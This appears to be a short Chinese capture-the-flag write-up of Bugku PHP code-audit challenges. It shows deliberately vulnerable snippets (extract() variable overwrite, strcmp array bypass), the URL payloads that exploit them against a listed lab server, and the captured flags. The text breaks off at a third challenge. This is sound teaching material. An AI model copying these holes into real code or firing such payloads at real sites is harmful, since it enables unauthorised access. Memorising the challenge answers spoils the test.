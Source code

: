 ##代码审计
1. extract变量覆盖 50
	>http://120.24.86.145:9009/1.php  
	<?php
	$flag='xxx';
	extract($_GET);
	if(isset($shiyan))
	{
	$content=trim(file_get_contents($flag));
	if($shiyan==$content)
	{
	echo'flag{xxx}';
	}
	else
	{
	echo'Oh.no';
	}
	}
	?>

	解答：

		变量覆盖漏洞
		http://blog.csdn.net/hitwangpeng/article/details/45972099

		payload:
			http://120.24.86.145:9009/1.php?shiyan=&flag=
		flag：
			flag{bugku-dmsj-p2sm3N}

2. strcmp比较字符串 50
	>http://120.24.86.145:9009/6.php  
	<?php
	$flag = "flag{xxxxx}";
	if (isset($_GET['a'])) {
	if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
	//比较两个字符串（区分大小写）
	die('Flag: '.$flag);
	else
	print 'No';
	}
	?>

	解答：

		php弱类型绕过strcmp
			strcmp不接受数组类型
		payload:
			http://120.24.86.145:9009/6.php?a[]=
		flag：
			flag{bugku_dmsj_912k}

3. urldecode二次编码绕过 50

		http://120.24.86.145:9009/10.php
		